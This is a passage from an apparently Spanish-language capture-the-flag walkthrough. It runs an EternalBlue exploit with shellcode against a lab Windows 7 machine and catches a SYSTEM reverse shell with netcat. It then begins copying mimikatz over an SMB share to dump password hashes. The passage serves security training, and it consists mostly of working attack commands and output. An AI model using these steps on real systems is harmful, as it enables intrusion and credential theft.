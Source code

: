 ```bash
DONE
```

Tras ejecutar el script, nos ponemos en escucha en el puerto especificado (`80`) y, desde el directorio raíz del repositorio, lanzamos el exploit, indicando como parámetro la dirección IP de la máquina víctima y el shell code que habíamos generado antes.

```bash
❯ python eternalblue_exploit7.py 10.10.206.58 shellcode/sc_x64.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

> Es normal que el exploit falle en los primeros intentos, por lo que no hay que desanimarse. En mi caso, logré ejecutarlo con éxito después del cuarto intento.
{: .prompt-info }

Si todo salió bien, deberíamos obtener una shell con el usuario `nt authority\system`.

```bash
❯ rlwrap nc -nlvp 80
listening on [any] 80 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.206.58] 49279
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Cracking de contraseñas (Mimi Katz)

Con el acceso al sistema como `nt authority\system`, podemos obtener los hashes de las contraseñas de los usuarios con la herramienta `mimikatz`. Para usar esta herramienta en la máquina víctima, nos ubicamos en el directorio `/usr/share/windows-resources/mimikatz/x64` de la máquina atacante (Kali) y creamos un recurso compartido con cualquier nombre (en este caso se uso “a”), que contenga `mimikatz.exe`. Luego, desde la máquina víctima, descargamos el archivo con el comando `copy \10.2.11.100\a\mimikatz.exe`.

- Servidor (kali):
    
    ```bash
    ❯ impacket-smbserver a .
    Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    ```
    